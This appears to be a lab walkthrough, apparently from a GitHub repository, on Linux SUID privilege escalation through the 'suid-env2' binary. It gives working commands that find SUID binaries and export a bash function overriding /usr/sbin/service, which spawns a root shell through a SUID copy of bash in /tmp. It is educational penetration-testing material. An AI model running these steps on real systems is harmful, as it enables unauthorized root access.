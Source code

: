 
* In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
* From the output, make note of all the SUID binaries.
* In command prompt type: `strings /usr/local/bin/suid-env2`
* From the output, notice the functions used by the binary.

## Exploitation ENV2



* In command prompt type:
```sh
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
**Explanation:** This function overrides the default `/usr/sbin/service` command. Instead of executing the intended service, it copies `/bin/bash` to `/tmp/`, assigns it SUID permissions, and executes it with elevated privileges.
* In command prompt type:
```sh
export -f /usr/sbin/service
```
**Explanation:** This command ensures that our malicious function is exported to the environment so that it gets executed when `/usr/local/bin/suid-env2` calls `service`.
* In command prompt type:
```sh
/usr/local/bin/suid-env2
```
**Explanation:** Since `suid-env2` runs as root and calls `/usr/sbin/service`, our function is executed instead, allowing us to escalate privileges.
* In command prompt type:
```sh
id
```
**Explanation:** This verifies that we have gained root access.
* In command prompt type:
```sh
whoami
```
**Explanation:** Confirms that the user is now root, completing the privilege escalation attack.

## Summary of SUID-Based Privilege Escalation

SUID (Set User ID) is a special file permission in Linux that allows executables to run with the permissions of the file owner instead of the executing user. If an SUID binary is owned by root, it can be exploited to escalate privileges to root if misconfigured.
Key SUID Privilege Escalation Techniques

**Finding SUID Binaries**
    Use the following command to list all binaries with the SUID bit set:

```sh
find / -type f -perm -04000 -ls 2>/dev/null
```
Any SUID binary owned by root could be a potential target.

Identifying Vulnerabilities in SUID Binaries
